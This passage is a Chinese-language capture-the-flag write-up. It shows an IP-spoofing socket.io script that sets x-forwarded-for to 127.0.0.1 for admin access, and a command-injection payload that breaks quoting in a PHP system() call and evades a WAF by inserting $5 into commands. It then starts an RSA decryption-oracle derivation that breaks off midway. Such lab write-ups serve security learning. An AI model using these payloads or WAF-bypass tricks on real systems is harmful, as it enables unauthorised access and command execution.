 ```javascript
var socket = require('socket.io-client')('http://final.kaibro.tw:10001',{
  extraHeaders: {
    'x-forwarded-for': '127.0.0.1'
  }
});
socket.emit('admin', 'aaa', function(data) {
  console.log(data);
});
```
flag: FLAG{G3t_R3al_IP_1s_50_h4rd}

### Two files
看到
``` php
$file1 = '"' . $file1 . '"';
$file2 = '"' . $file2 . '"';
$cmd = "file $file1 $file2";
system($cmd);
```
就猜這題大概就是cmd injection，
看了file的manpage，沒發現甚麼好用的option，
所以就找有甚麼辦法能run第二種command。最後試出了下面這個payload
```
    f1=\&&f2=%0A l$5s . \
```
f1的\是為了消除file1的右雙引號，這樣子file2的左雙引號就和file1的左雙引號配對。
再來就可以用%0a換行，run第二個command了。
最後記得要把file2的右雙引號消除掉。
ls之間塞一個$5是為了繞過WAF，cat , flag之類的都可以用這種方式繞過。
就像這樣
```
    file "\" "%0a l$5s . \"
```
真的執行了"ls ."，所以基本上get shell了，有辦法拿flag。

![](https://i.imgur.com/h5UHY94.png)

flag:  FLAG{e4sy_w4f_byp4s5_0h_y4_XD__} 

### LOracleVE

m = 明文
c = m^e^ (mod n)
d = 密鑰, dr=密鑰的後516bits，dl=密鑰的剩下bits
題目拿來解密的就是dr，所以我們拿到的是c^dr^。
但我們想要的是c^d^ = c^dr+dl^=c^dr^ * c^dl^。
現在就來猜dl。

∃k∈[0, e) s.t. 

      e*d = k * φ(n) + 1 
      
=> d = (k * φ(n) + 1 )/e
